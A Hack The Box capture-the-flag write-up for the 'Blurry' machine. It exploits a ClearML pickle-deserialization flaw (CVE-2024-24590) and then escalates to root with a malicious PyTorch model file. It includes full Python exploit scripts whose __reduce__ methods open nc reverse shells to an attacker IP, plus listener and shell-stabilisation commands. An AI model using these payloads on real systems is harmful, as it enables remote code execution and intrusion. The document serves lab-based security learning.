 # Blurry-writeup-HTB

# Exploration

Let's perform an nmap scan

```bash
nmap -sCV -A 10.10.11.19
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-08_15_45_41.jpg)

We must add the subdomains:

```bash
sudo nano /etc/hosts 
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-10_18_45_06_1.png)


Let's visit the web port app.blurry.htb that we discovered with the nmap scan


![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_15_46_05.png)

Just by entering a username we can enter.

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_16_28_06.png)


Investigate what CLEARML is, what it is for, how it works. 
I found a website that details the vulnerabilities.

[CVE-2024-24590](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/?source=post_page-----203ea31df0e3--------------------------------) 


# Exploitation configuration

According to what they explain, an attacker could create a pickle file containing arbitrary code and upload it as an artifact to a project via the API. When a user calls the get method within the Artifact class to download and load a file into memory, the pickle file is deserialized to their system and executes any arbitrary code it contains.

We need to configure it on our machine
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-10_18_45_06.png)

```bash
pip install clearml
clearml-init
```
# Exploitation

We need a Python script that creates and uploads a malicious pickle file. 
When the file is executed, it will establish a reverse shell connection to our machine.

```bash
import pickle
import os
from clearml import Task, Logger

task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])

class MaliciousCode:
    def __reduce__(self):

        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc "ip port" > /tmp/f"
        )
        return (os.system, (cmd,))

malicious_object = MaliciousCode()
pickle_filename = 'malicious_pickle.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)

print("Malicious pickle file with reverse shell created.")

task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")

print("Malicious pickle file uploaded as artifact.")
```

With the execution of the exploit, the artifact is loaded.
Then when the administrator checks it, you will get a shell on the listening port.

Listen on netcat
```bash
nc -lvnp <port>
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_16_58.png)

Run the exploit

```bash
python exploit.py
```
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_19_25.png)

The exploit is uploaded to the web, runs and completes. after two minutes you get reverse shell in your terminal.
You may need to run the exploit several times to obtain the shell.

# The user flag
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-13_17_54_22.png)

# Privilege escalation

Let's stabilize our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")’    

export TERM=xterm 

stty raw -echo
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_04_23_09.png)

Let's check the ones we can run as root.
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_23_38.png)

The jippity user can run the evaluate_model command with any file that has a .pth extension. Let's navigate to the /models/ directory to investigate further.

Installing the torch from pip will allow us to create a model.

The script I will use to create our malicious model:

```bash
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, demo): # Passes input through the linear layer.
        return self.dense(demo)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'demo.pth')
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_33_39.png)

```bash
jippity@blurry:~$ wget http://10.10.x.x/demo.pth
--2024-06-13 15:06:49--  http://10.10.x.x/demo.pth
```
# Root flag

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_34_06.png)


```bash
nc -lvnp 6060
listening on [any] 6060 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.19] 57082
root
# cat /root/root.txt
```
